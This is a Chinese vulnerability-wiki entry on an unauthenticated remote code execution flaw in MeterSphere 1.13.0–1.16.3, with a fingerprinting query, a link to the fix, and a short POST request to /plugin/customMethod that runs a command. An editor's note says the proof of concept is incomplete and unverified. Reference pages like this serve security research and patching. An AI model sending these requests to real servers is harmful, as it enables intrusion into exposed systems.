



# MeterSphere customMethod 远程命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：1.13.0-1.16.3 claimed; malicious class must first exist in classloader
- 证据范围：Only customMethod request shown; missing essential plugin upload/class installation

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0 RCE reproduction missing prerequisite malicious plugin upload; entryEvil not explained
- Missing Content-Type/full request and fixed release
- Same underlying plugin authorization issue as28; merge with complete chain while preserving patch link

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复。

## 漏洞影响

```
MeterSphere v1.13.0 - v1.16.3
```

## 网络测绘

```
body="MeterSphere"
```

## 漏洞复现

登陆页面


根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```
https://github.com/metersphere/metersphere/pull/9140/files
```




查看文件 /backend/src/main/java/io/metersphere/controller/PluginController.java




发送请求包

```
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
